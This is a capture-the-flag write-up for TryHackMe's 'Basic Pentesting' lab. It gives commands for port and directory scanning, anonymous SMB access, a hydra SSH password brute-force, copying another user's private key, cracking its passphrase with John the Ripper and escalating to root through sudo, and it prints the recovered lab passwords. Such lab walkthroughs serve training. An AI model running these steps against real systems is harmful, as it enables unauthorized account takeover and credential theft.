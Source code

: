 <img src="/images/THMlogo.png" alt="tryhackme" width="200"/>

# Basic Pentesting

## tryhackme

### nmap

```
Port 22 SSH
Port 80 HTTP
Port 139 Samba
Port 445 Samba
Port 8009 AJP
Port 8080 HTTP Apache Tomcat 9.0.7
```
### gobuster
Initial page under construction. Enumerate main page and find:
```
/development
```
Continue directory serach but nothing else shows.

Two files exisit:

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
### smbmap

```
smbmap -H <IP>
```
Provides Anonymous account

```
smbclient //<IP>anonymous
```
Provides staff.txt letter confirming two usernames - Jay and Kay

### hydra

```
hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>
```
Provides Jan's password *armando*

### ssh

Logging into Jan's account does not show anything and also no ability to sudo.

Investigate /home directory and we find Kay:
```
pass.bak
.ssh
```
Copy id_rsa from .ssh file and save on attacker computer.

### john the ripper

Hash the key with the following command:
```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```
Now use John to crack the hash. This only provides the passphrase for the public key.
```
/usr/sbin/john --wordlist=/root/Desktop/dict/rockyou.txt id_rsa.hash
```
We find *beeswax* is the passphrase.

## enumeration
Now login from Jan on the target host using:
```
ssh -i /home/kay/.ssh/id_rsa kay@<IP>
```
We now have Kay's account. Remember the pass.bak. Cat this:
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
Now see what we can do with sudo -l:

```
User kay may run the following commands on basic2:
  (ALL : ALL) ALL
```
So we have full control, just switch to root and after looking in the /root folder we have a congratulations flag.
